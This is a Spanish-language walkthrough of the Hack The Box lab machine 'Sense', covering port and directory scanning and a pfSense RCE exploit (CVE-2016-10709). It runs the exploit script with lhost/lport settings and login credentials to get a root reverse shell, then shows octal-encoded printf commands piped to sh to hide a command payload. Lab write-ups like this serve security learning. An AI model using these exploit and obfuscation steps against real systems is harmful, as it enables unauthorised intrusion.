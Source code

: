 # Sense-HTB
Resolucion de la maquina

## NMAP

```
sudo nmap -sSV -p80,443 10.129.76.69 -oN scan

```
 Tenemos el puerto 80 y el 443 abieto.

 ## FFUF

Aunque se necesito hacer esto recursivamente y se tuvo que usar el Dirbuster

```
ffuf -r -fc 404 -t 100  -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://10.129.76.69/FUZZ.txt 

```

## Dirbuster

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/1a524956-8a6f-4612-93a9-ed001a85aa0e)


![image](https://github.com/gecr07/Sense-HTB/assets/63270579/6e8a2471-2a37-4733-b3d1-3568191cb567)


Para encontrar cosas admito que es mejor esta herramienta. En este caso necesitabamos encontrar un txt.

```
dirbuster -u https://10.129.76.69 -t 20 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r dirout.ext -e php,txt,html
```

## searchsploit

```
searchsploit -x #examina
searchsploit -m # mueve

```

## RCE

Para buscar exploits aprendimos una cosa nueva poner entre comillas el cve por ejemplo: "CVE-2016-10709" (or Google will return others)

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/bd04aa38-a5ef-45c4-855a-cfa7e64179c2)

```
python3 43560.py --rhost 10.129.76.69 --lhost 10.10.14.10 --lport 4444 --username rohit --password pfsense

```

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/4b0b45f5-5fae-46ca-8f63-705d693ab69d)



Regresa una shell con privilegios de root no me dejo hacer ni full tty.

## Plus

Viendo un pcoo los writeups me di cuenta como funciona esta payload. por ejemplo para crear un payload mas o menos con esta tecnica.

![image](https://github.com/gecr07/Sense-HTB/assets/63270579/514be4fb-928e-45e9-b484-04eccfc30656)


```
# Si pones lo decodifica auque sea base octal nose asi funciona 
printf '\164\157\165\143\150\040\057\164\155\160\057\060\170\144\146'        
touch /tmp/0xdf

#Ahora si lo pasas a |sh|echo el echo solo mete un salto de linea.

printf '\164\157\165\143\150\040\057\164\155\160\057\060\170\144\146'|sh|echo

## Guarda los numeros octales decodificados en ese archivo

printf '\164\157\165\143\150\040\057\164\155\160\057\060\170\144\146' | xargs echo -e > archivo_decodificado.txt

```

> https://0xdf.gitlab.io/2021/03/11/htb-sense.html












































